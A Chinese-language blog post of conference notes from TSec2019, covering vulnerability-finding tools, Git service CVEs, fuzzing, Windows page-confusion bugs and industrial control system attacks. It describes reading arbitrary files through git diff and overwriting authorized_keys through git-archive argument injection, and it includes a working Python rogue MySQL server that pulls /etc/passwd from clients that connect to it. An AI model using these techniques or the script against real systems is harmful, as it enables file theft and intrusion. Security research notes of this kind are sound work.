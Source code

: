 ```yaml
---
layout: post
title:  "TSec2019 聆听笔记"
categories: note
tags: note
author: ble55ing
---
```


* content
{:toc}
## TSec2019 聆听笔记

参加了TSec2019的分享会，有一些思考和感悟，正好现在PPT也分享出来了，特地在此记下来。

从大会上可以看出学校和企业的主要不同，来自学校的分享以漏洞发现工具为主，如何通过特征来发现有漏洞的代码；来自企业人员的分享主要是实际的漏洞发现为主。二者都很有意思，也让我收获很大，其中的一些漏洞打算在接下来的一段时间里复现一下（最近挖的坑好像有点多了）。

### 文心雕“虫”----利用自然语言理解技术发现内存破坏漏洞

作者开发了NLP-EYE一种工具，这是一个源码漏洞发现工具，用的是对函数名称的理解，用于解决当前的源码检测工具会漏报非标准库函数、无法识别间接跳转、第三方库函数、编译单元外函数定义、不同的内存管理方式的问题。目前的CPP检测工具：cppcheck，infer和CSA

#### 识别并定位内存管理函数

这一工具分析函数名和参数，建立语料库，对函数名进行分词，比较，验证。如```void *AcquireQuantumMemory(const size_t count,const size_t quantum)    ```和 ```void* malloc( size_t size );   ```，Acquire对应alloc，Memory对应m，count对应size。

主要分词难点在于缩写的使用、命名的风格和自然语言处理。解决是采用定制语料库的方式。wekipedia内容太复杂，customized corpus(太小了) stackoverflow:编程语言敏感，够大，比较好。分析返回值和参数，归一化为指针和数值两种类型

#### 标记并跟踪内存的分配、释放、访问情况    

采用clang 进行静态分析。

#### 检测内存使用违规    

是否存在可能的空指针解引用、Double free、UAF等漏洞

### 对于Git版本控制服务的通用攻击面探索

Git没有对横向的访问权限进行控制。针对Gitlay（Git gRPC service of GitLab）是git提供的服务。

这些是使用Ruby和Go，需要使用的AST生成器RuboCop(Ruby)和Guru(Co)

找到使用os/exec.Command的地方，看看能不能用

#### git-bundle

(CVE-2019- 6240)，Git RPC executes git clone uploaded bundle file.  

GitLab使用git-bundle解决项目的导入导出

这个漏洞可以实现水平方向上获取别人的代码

#### git-diff

(CVE 2019-9221)Read arbitrary file via git diff command

用于比较两个版本代码的不同

这个方法的使用为```git diff sha1 sha2```，但是在实际的使用过程中，这两个参数可以不必是sha值，如/etc/passwd 和/etc/hosts，那么就能够得到这些文件里的数据了

#### git-lfs 

(CVE-2018-20144 & CVE-2018-20499)Read arbitrary file and SSRF

跟踪大文件的插件。

攻击过程是这样的：developer 发送git clone 给Bitbucket，Bitbucket回git pack file；Develop问```while is file <sha>```，Bitbucket回它在LFS store，然后Developer发```GET .../<objectSHA>```给LFS store。

```tail -n 20 lfs-objects/sha256```。。具体什么意思，不是很清楚，需要再看PPT

#### git- archive

(CVE 2019-12430) File overwritten to RCE via parameter injection

一个打包所有文件指令，存在命令注入，如果文件名是以--开头的，那么就会被认为是一个程序的参数而不是路径，这样存在了一个文件覆盖漏洞。用这个文件漏洞去覆盖authorize keys，就可以gets shell了。

![](https://raw.githubusercontent.com/ble55ing/PicGo/master/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20190811211326.png)

为什么用tar：tar是一个打包协议，而不是压缩协议，所以能明文携带payload

作者点评：	git 这种的工具的服务端或多或少会有服务器执行用户端命令的操作，
			开发者可能缺少这方面安全意识(伪装git服务器的问题)

### 流敏感的模糊测试系统（待PPT补充）

AFL的插桩改进：

​	将基本块分为三类进行插桩：

​	Fmul 可搜索到的多前驱基本块

​	Fhash: 没搜索到的多前驱基本块

​	Fsingle：单前驱的基本块

![](https://raw.githubusercontent.com/ble55ing/PicGo/master/%E5%BE%AE%E4%BF%A1%E5%9B%BE%E7%89%87_20190813200751.jpg)

​	Fmul 是选择合适的xyz使得多前驱的路径不同，插入时计算，保证路径不重复的路径插桩方式。

我提出的关于插桩的问题：这种插桩方式的内存占用率大概多少; 多入度的基本块能否找到这样的xyz。

100M程序内存占用256K

### Comprehensive analysis of the mysql client attack chain 

mysql允许服务器端读取客户端有读权限的任意文件。

TCTF 2018 Final h4x0rs.club pt.3    Dragon Sector && Cykor    的非预期

无论用户端发任何请求，只要服务器返回想要读取某文件，而且该文件可读，就会给它传这个文件。

（这种情况还可能发生在在线文档、云服务中）

因此可以尝试在公网布置一个蜜罐，得到尝试连接者的文件。ARF能将泄露变成getchell。

然后就去尝试搞了一个，还真可以。

附上网传的一个伪造服务器

```
#coding=utf-8
import socket
import logging
logging.basicConfig(level=logging.DEBUG)

filename="/etc/passwd"
sv=socket.socket()
sv.bind(("",3306))
sv.listen(5)
conn,address=sv.accept()
logging.info('Conn from: %r', address)
conn.sendall("\x4a\x00\x00\x00\x0a\x35\x2e\x35\x2e\x35\x33\x00\x17\x00\x00\x00\x6e\x7a\x3b\x54\x76\x73\x61\x6a\x00\xff\xf7\x21\x02\x00\x0f\x80\x15\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x70\x76\x21\x3d\x50\x5c\x5a\x32\x2a\x7a\x49\x3f\x00\x6d\x79\x73\x71\x6c\x5f\x6e\x61\x74\x69\x76\x65\x5f\x70\x61\x73\x73\x77\x6f\x72\x64\x00")
conn.recv(9999)
logging.info("auth okay")
conn.sendall("\x07\x00\x00\x02\x00\x00\x00\x02\x00\x00\x00")
conn.recv(9999)
logging.info("want file...")
wantfile=chr(len(filename)+1)+"\x00\x00\x01\xFB"+filename
conn.sendall(wantfile)
content=conn.recv(9999)

logging.info(content)
conn.close()
```

### Sorry It's Not Your Page

感觉可以复现一下啊

windows 分段式基本可以忽略，主要看分页式，不同程序的虚拟地址一样，实际地址不同;

每个进程独占用户空间，但共享内核空间。内核空间采用写时复制技术，确保数据安全。

![](https://raw.githubusercontent.com/ble55ing/PicGo/master/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20190826125407.png)

物理页面混淆漏洞？CVE-2019-0892

会话空间是内核空间的一部分，同一会话的进程，同样虚拟地址为同一物理地址

这个漏洞可以发生在分配之前，可以先占位，可能导致UAF 

解决思路：

使用错误的页表进行虚拟地址转换会导致物理页面混淆类漏洞

操作系统应当提供机制来判断是否可以安全的使用虚拟地址

开发人员应当认识到这类漏洞的存从而做出相应的处理 

### 工控系统安全分析

分析思路：

入侵上位机 -> 劫持编程软件dll -> 注入OT载荷 -> 破坏离心机

接入内网 -> 注入加载器 -> 注入OT载荷 -> 破坏物理系统

